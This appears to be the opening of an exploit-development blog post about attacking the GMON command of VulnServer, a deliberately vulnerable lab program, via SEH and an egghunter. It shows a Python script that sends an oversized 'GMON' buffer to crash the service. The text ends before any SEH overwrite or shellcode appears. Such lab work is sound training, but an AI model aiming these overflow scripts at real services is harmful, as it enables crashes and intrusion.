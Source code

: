 ```yaml
---
layout: post
title:  "[VulnServer] Exploiting GMON Command via SEH and Egghunter"
date:   2018-06-30
categories: [exploitdev, osceprep]
---
```


I used the following skeleton to exploit the `GMON` command.
```python
#!/usr/bin/python

import os
import sys
import socket

host = "192.168.1.129"
port = 9999

buffer = "A"*5000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
print "[*] Sending exploit..."
s.send("GMON /.:/" + buffer)
print s.recv(1024)
s.close()
```

Executing this code caused a crash to the application. As observed, **EIP** was not overwritten with A’s. So, what caused the crash?
![Crash](/static/img/05/01.png)
